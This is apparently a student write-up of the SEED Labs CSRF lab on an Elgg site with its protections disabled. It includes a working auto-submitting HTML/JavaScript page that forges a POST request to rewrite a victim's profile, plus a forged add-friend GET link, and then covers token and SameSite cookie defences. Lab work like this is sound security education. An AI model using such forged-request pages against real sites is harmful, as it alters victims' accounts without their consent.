# CSRF
The objective of this lab is to help students understand the Cross-Site Request Forgery (CSRF or XSRF) attack. A CSRF attack involves a victim user, a trusted site, and a malicious site. The victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages.

In this lab, students will be attacking a social networking web application using the CSRF attack. The open-source social networking application called Elgg has countermeasures against CSRF, but we have turned them off for the purpose of this lab.

https://seedsecuritylabs.org/Labs_20.04/Web/Web_CSRF_Elgg/
Tasks: https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Web_CSRF_Elgg.pdf
Lab setup: https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip

## 配置环境
1. 下载并解压lab setup。
2. `docker-compose build`
3. `docker-compose up`
4. 向`/etc/hosts`中加入相关域名
    ```
    10.9.0.5 www.seed-server.com
    10.9.0.5 www.example32.com
    10.9.0.105 www.attacker32.com
    ```

## 实验

### 攻击
#### HTTP GET服务的CSRF







如图，环境已经配置完毕。

在Elgg中登录charlie的账号（charlie是samy的小号），添加samy到好友列表，抓包可以发现这个过程是一个GET请求。



`http://www.seed-server.com/action/friends/add?friend=59`

59代表samy的GUID。


在attacker的docker里编辑HTML文件。`docksh`来进入attacker的docker。

```
cd /var/www/attacker
nano addfriend.html
```



---

模拟Alice行为。

Alice登录到Elgg，这时候firends空无一人。



然后点击samy提供的链接：

`http://www.attacker32.com/addfriend.html`

，于是Alice在不知情的情况下将samy添加为frineds。



#### HTTP POST服务的CSRF

使用charlie的账号登录，修改个人资料，抓包分析请求格式。



Alice的GUID可以通过对加Alice为好友的HTTP GET请求抓包来获得。

`editprofile.html`内容如下：

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>

```


Alice点击`http://www.attacker32.com/editprofile.html`，发现个人资料被修改。



---

Question 1: The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe how Boby can solve this problem.

Answer 1: Boby登录自己的账号，对将Alice添加到好友列表的过程抓包，可以获得Alice的GUID。

Question 2: If Boby would like to launch the attack to anybody who visits his malicious web page. In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF attack to modify the victim’s Elgg profile? Please explain.

Answer2: 不能对任何人发动攻击，因为修改资料的POST请求需要GUID参数，而通过JavaScript没有办法获取跨域的cookie，无从得知当前登录用户的GUID。

### 防御

#### 启用Elgg的对策

`nano /var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security/Csrf.php`

删除`public function validate(Request $request)`下面的`return;`

保存后，再次尝试上述攻击，均以失败告终。这是因为开启CSRF对策后，elgg会检验`__elgg_token`和`__elgg_ts`字段，后者是一个时间戳，前者是会话id+时间戳的MD5。攻击者不能获得elgg的会话id，无法生成token，无法进行CSRF攻击。



#### SameSite cookies

访问`http://www.example32.com/`，此时会产生三个cookies。



点击Link A，跳转到`http://www.example32.com/testing.html`



无论是`http://www.example32.com/showcookies.php`，还是发送GET或POST请求，都可以看到三个cookies。说明这是同站请求。



点击Link B，跳转到`http://www.attacker32.com/testing.html`。



跳转到`http://www.example32.com/showcookies.php`，这时`cookie-strict`是无效的。



从`attacker32.com`发送`example32.com`的GET请求，这时`cookie-strict`是无效的。



从`attacker32.com`发送`example32.com`的POST请求，这时`cookie-strict`和`cookie-lax`是无效的。



Elgg可以在创建cookie时，设置为Strict，以防止CSRF攻击。

#### 参见

一些PHP代码段：

显示所有cookies：

```php

<?php
foreach ($_COOKIE as $key=>$val)
  {
    echo '<li><h3>'.$key.'='.$val."</h3></li>\n";
  }
?>

```

设置cookie：

```php
<?php
  setcookie('cookie-normal', 'aaaaaa');
  setcookie('cookie-lax', 'bbbbbb', ['samesite' => 'Lax']);
  setcookie('cookie-strict', 'cccccc', ['samesite' => 'Strict']);
?>

```

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite